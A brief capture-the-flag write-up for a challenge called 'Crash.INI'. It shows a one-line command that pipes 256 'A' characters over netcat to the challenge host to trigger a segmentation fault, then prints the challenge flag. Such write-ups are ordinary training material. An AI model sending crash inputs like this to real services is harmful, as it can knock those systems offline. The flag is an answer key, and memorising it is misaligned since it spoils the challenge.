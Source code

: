 # Crash.INI - 0x0

## Write-up
Simply cause a segmentation fault.
```bash
python3 -c 'print("A"*256)' | nc $HOST $PORT
```

## Flag
`shellmates{g00d_j0b_y0u_cr4sh3d_th3_pr0gram}`
